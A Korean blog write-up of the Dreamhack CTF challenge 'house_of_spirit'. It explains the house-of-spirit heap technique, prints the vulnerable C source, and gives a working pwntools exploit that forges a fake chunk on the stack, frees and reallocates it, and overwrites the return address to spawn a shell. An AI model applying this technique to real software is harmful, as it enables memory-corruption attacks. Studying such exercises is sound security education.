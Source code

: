 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN house_of_spirit"
excerpt: "드림핵 포너블 Dream's Notepad 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-26 15:00
---
```


얼떨결에 도전해본 4단계 문제이다. 취약점 이름은 제목과 같이 house_of_spirit 공격에 관한 내용이다. 문제를 보면 해당 취약점이 어떤 방식으로 터지는지에 대한 설명이 링크로 주어진다. [https://learn.dreamhack.io/16#96](https://learn.dreamhack.io/16#96)

해당 취약점을 간단히 설명하면, free함수는 할당된 메모리를 해제하는 함수이다. free함수를 통해 해제된 청크는 fastbin의 규칙 때문에 취약점으로 이어질수 있다. 가령 0x30의 메모리를 free하면 해당 청크는 fastbin 규약에 따라 메모리에서 해제된다. 해제된 메모리 정보를 tcache_entry에 저장한다. 이후 다시 0x30의 메모리를 할당 받으면 디른 힙 청크에서 일부를 할당하는 것이 아닌 tcache_entry에 등록되어 있는 동일한 사이즈의 청크를 이용하게 된다. 해당 취약점은 변수의 메모리 주소를 알고있다는 가정 하에 실제 청크의 형식을 변수 메모리에 구성하고 이를 해제 후 제 할당함으로 써 할당한 청크에 값을 쓰면 스택 영역을 덮어 씌울 수 있다.

해당 문제의 소스코드는 다음과 같다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
	execve("/bin/sh", NULL, NULL);
}

int main() {
	char name[32];
	int idx, i, size = 0;
	long addr = 0;

	initialize();
	memset(name, 0, sizeof(name));
	printf("name: ");
	read(0, name, sizeof(name)-1);

	printf("%p: %s\n", name, name);
	while(1) {
		printf("1. create\n");
		printf("2. delete\n");
		printf("3. exit\n");
		printf("> ");

		scanf("%d", &idx);

		switch(idx) {
			case 1:
				if(i > 10) {
					return -1;
				}
				printf("Size: ");
				scanf("%d", &size);

				ptr[i] = malloc(size);

				if(!ptr[i]) {
					return -1;
				}
				printf("Data: ");
				read(0, ptr[i], size);
				i++;
				break;
			case 2:
				printf("Addr: ");
				scanf("%ld", &addr);

				free(addr);
				break;
			case 3:
				return 0;
			default: 
				break;
		}
	}

	return 0;
}
```

바이너리의 진행 구조는 다음과 같다.
```
이름 입력 -> 이름 메모리 주소 출력 -> 각 매뉴에 따라 1번은 malloc을 통한 메모리 할당 -> 2번을 통해 free를 이용한 메모리 해제 -> 3번을 통해 return을 호출 후 종료
```

이름을 입력한 메모리의 주소를 알수 있다는 것이 매우 유효하다. 이 주소는 스택 영역에 있으며 이를 이용해 가짜 청크를 구성하고 해제한 가짜 청크만큼 다시 할당해 return영역을 덮어쓰면 익스플로잇에 성공할 것 같다.

문제를 풀기전에 청크의 구조를 알아보자.
```
     ________________________________
    |   prev_size   |      size      |   <- header[prev_size + size의 값이
    |--------------------------------|            32비트의 경우 8바이트(4 + 4),
    |                                |            64비트의 경우 16바이트(8 + 8)]
    |                                |
    |              data              |   <- 할당한 데이터 영역의 크기
    |                                |
    |                                |
    |________________________________|
```
위처럼 구조가 나열되어 있으며 64비트 환경에서 0x32크기의 힙을 할당받으면 해더 영역 0x10 과 데이터 영역 0x32가 더해진 0x42가 해더의 size에 쓰인다. prev_size는 이전 청크의 크기 값이다.


이 정보를 바탕으로 name 변수에 가짜 청크를 구성해보자. 헤더 영역만 잘 맞춰주면 free 함수가 청크로 인식해 사이즈 만큼 해제할 수 있을 것이다. prev_size는 0을 8바이트 만큼 넣고 size를 0x50만큼 입력한다. 이후 출력된 메모리 주소를 free 한다. 다만 힙을 한번 할당 해야지 tcache가 생성되므로 임의 크기의 힙을 한번 할당한다. 이후 출력된 메모리 주소 + 0x10의 주소를 free하면 name변수 주소로 청크가 0x50만큼 할당된다. 이후 임의 데이터로 채우고 return 주소가 들어있는 부분에 get_shell() 함수 주소를 넣으면 익스플로잇 할수 있다.




```python
from pwn import *
context.update(arch='amd64', os='linux')

p = remote("host3.dreamhack.games", 9817);
#p = process("./oneshot", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./house_of_spirit")
#libc=ELF('./libc.so.6')

data = p64(0)+p64(0x50)
print(data)

p.sendafter(b"name: ", data)

leak = int(p.recvuntil(b":")[:-1], 16)
print(f"leak data : {hex(leak)}")

free_ptr = leak+0x10
print(f"free ptr : {hex(free_ptr)}")

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", b"A"*64)

p.sendlineafter(b"> ", str(2))
p.sendlineafter(b"Addr: ", str(free_ptr))

payload = b"A"*40+p64(0x400940)

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", payload)

pause()

p.sendlineafter(b"> ", str(3))

p.interactive()
```